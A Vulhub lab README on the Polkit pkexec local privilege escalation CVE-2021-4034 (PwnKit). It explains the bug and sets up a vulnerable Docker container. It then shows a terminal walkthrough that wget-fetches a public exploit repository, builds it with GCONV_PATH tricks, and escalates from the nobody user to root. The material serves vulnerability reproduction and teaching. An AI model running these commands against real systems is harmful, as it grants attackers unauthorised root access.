

# Polkit's `pkexec` Local Privilege Escalation Vulnerability (CVE-2021-4034)

[中文版本(Chinese version)](README.zh-cn.md)

Polkit (formerly PolicyKit) is a component for controlling system-wide privileges in Unix-like operating systems. The pkexec application is a setuid tool that provided by Polkit, it is designed to allow unprivileged users to run commands as privileged users according predefined policies.

The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation giving unprivileged users administrative rights on the target machine.

References:

- https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
- https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
- https://github.com/berdav/CVE-2021-4034

## Vulnerability Environment

> Note: Linux kernel is fixed the [`argc==0` bug](https://lwn.net/Articles/882799/) in this [commit](https://github.com/torvalds/linux/commit/dcd46d897adb70d63e025f175a00a89797d31a43), you have to test this bug under the lower version of Linux because Docker container shares kernel with the host machine.

Because this vulnerability is not based on a service that running foreground, Vulhub just provided a Ubuntu that installed the Polkit (PolicyKit) v0.105.

You can run following command to enter the interactive shell on this Ubuntu:

```
docker-compose run --rm cmd bash
```

Then, execute `id`, it proves that you are just a normal user `nobody`:



## Exploit

Use [this repository](https://github.com/berdav/CVE-2021-4034) to reproduce the CVE-2021-4034:

```
nobody@a083d335d026:/$ cd /tmp/
nobody@a083d335d026:/tmp$ wget https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
--2022-02-12 09:33:21--  https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
Resolving github.com (github.com)... 20.205.243.166
Connecting to github.com (github.com)|20.205.243.166|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main [following]
--2022-02-12 09:33:21--  https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main
Resolving codeload.github.com (codeload.github.com)... 20.205.243.165
Connecting to codeload.github.com (codeload.github.com)|20.205.243.165|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/x-gzip]
Saving to: 'main.tar.gz'

main.tar.gz                                              [ <=>                                                                                                                  ]   4.08K  --.-KB/s    in 0s

2022-02-12 09:33:22 (61.8 MB/s) - 'main.tar.gz' saved [4176]

nobody@a083d335d026:/tmp$ tar -zxvf main.tar.gz
CVE-2021-4034-main/
CVE-2021-4034-main/.gitignore
CVE-2021-4034-main/LICENSE
CVE-2021-4034-main/Makefile
CVE-2021-4034-main/README.md
CVE-2021-4034-main/cve-2021-4034.c
CVE-2021-4034-main/cve-2021-4034.sh
CVE-2021-4034-main/dry-run/
CVE-2021-4034-main/dry-run/Makefile
CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c
CVE-2021-4034-main/dry-run/pwnkit-dry-run.c
CVE-2021-4034-main/pwnkit.c
nobody@a083d335d026:/tmp$ cd CVE-2021-4034-main/
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ ls
LICENSE  Makefile  README.md  cve-2021-4034.c  cve-2021-4034.sh  dry-run  pwnkit.c
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root)
```


As you can see, I currently become a root user after exploits.
